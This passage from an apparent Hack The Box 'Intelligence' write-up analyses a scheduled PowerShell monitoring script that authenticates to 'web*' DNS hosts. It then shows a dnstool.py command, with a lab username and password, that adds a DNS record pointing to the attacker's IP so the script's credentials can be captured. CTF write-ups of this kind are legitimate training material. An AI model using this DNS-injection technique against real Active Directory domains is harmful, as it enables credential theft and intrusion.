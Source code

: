 This file `downdetector.ps1` :

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ cat downdetector.ps1                                                                   
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
{: .nolineno}

The above code is a PowerShell script designed to check the status of web servers. Here’s a breakdown of what it does:

1. `Import-Module ActiveDirectory`: This command imports the Active Directory module, which allows the script to interact with Active Directory objects.
2. `foreach($record in Get-ChildItem "AD:...")`: The script iterates over DNS records in Active Directory that start with “web”.
3. `try { ... } catch {}`: This is a try-catch block used to handle any exceptions that may occur during the execution of the code within the try block.
4. `$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials`: For each record, the script makes a web request to the corresponding URL using the default credentials of the user running the script.
5. `if($request.StatusCode -ne 200) { ... }`: If the HTTP status code returned is not 200 (OK), indicating that the web server is not responding properly, the script sends an email.
6. `Send-MailMessage ...`: This command sends an email to ‘Ted Graves’ with the subject indicating which host is down.

The script is scheduled to run every 5 minutes, as indicated by the comment at the top. It’s a monitoring script to ensure web servers are functioning correctly and to alert the administrator if any server goes down.

Since this script is iterating over a DNS record start with “web” , so I know a Tool that will include a DNS record into this Active directory machine with LDAP.

**[dnstool.py](https://dnstool.py) that work on [krbrelayx](https://github.com/dirkjanm/krbrelayx) via LDAP.**

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ python3 /opt/Tools/krbrelayx/dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-Strong --data 10.10.16.29 --type A 10.10.10.248    
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
{: .nolineno}
